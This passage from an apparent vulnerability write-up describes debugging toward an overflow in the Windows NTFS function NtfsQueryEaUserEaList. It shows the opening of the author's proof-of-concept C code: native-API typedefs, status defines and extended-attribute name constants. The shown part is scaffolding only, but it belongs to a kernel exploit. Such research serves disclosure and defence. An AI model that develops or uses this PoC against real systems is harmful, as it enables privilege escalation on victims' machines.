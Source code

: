 Now finally, compiling, setting a breakpoint, execution aaand ... nothing. Didn't hit `NtfsQueryEaUserEaList`. First I though it might have something to do with the `Flags` field, but this was not the case.
In hindsight again it was obvious, the vulnerable function has `EaList` in it's name and I hadn't set the `EaList` and `EaListLength` parameters:

```c
    IN PVOID EaList OPTIONAL,
    IN ULONG EaListLength,
```

However I came only to that conclusion after reversing more (up the callstack), debugging and trial and error (`goto: reversing`) that I did miss that.

Eventually I was able to trigger the vulnerable function. So let's figure out how we are getting that overflow next. This was the source code of the PoC at that time:

```c
#include <windows.h>
#include <stdio.h>
#include <ntstatus.h>
#include <winternl.h>

// Ressources:
// https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/
// https://hex.pp.ua/extended-attributes.php
// https://github.com/uvbs/obfuscation-crypto-repo/blob/master/Krypton_7.1/Bin/SYS/ntundoc.h
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FFILE_GET_EA_INFORMATION.html
// 

#define STATUS_INVALID_EA_NAME           ((NTSTATUS)0x80000013L)
#define STATUS_EA_LIST_INCONSISTENT      ((NTSTATUS)0x80000014L)
#define STATUS_EA_TOO_LARGE              ((NTSTATUS)0xC0000050L)
#define STATUS_EAS_NOT_SUPPORTED         ((NTSTATUS)0xC000004FL)
#define STATUS_EA_CORRUPT_ERROR          ((NTSTATUS)0xC0000053L)

#define MAX_EA_NAME_LEN 255


// Function prototypes for the Native API functions
typedef NTSTATUS(NTAPI* NtSetEaFile_t)(
    HANDLE FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID Buffer,
    ULONG Length
    );

typedef NTSTATUS(NTAPI* NtQueryEaFile_t)(
    HANDLE FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID Buffer,
    ULONG Length,
    BOOLEAN ReturnSingleEntry,
    PVOID EaList,
    ULONG EaListLength,
    PULONG EaIndex,
    BOOLEAN RestartScan
    );

#define EA_NAME  "User.Comment321"
#define EA_NAME2 "User.Comment222"
#define EA_NAME_LENGTH (sizeof(EA_NAME) - 1)
#define EA_NAME_LENGTH2 (sizeof(EA_NAME2) - 1)


```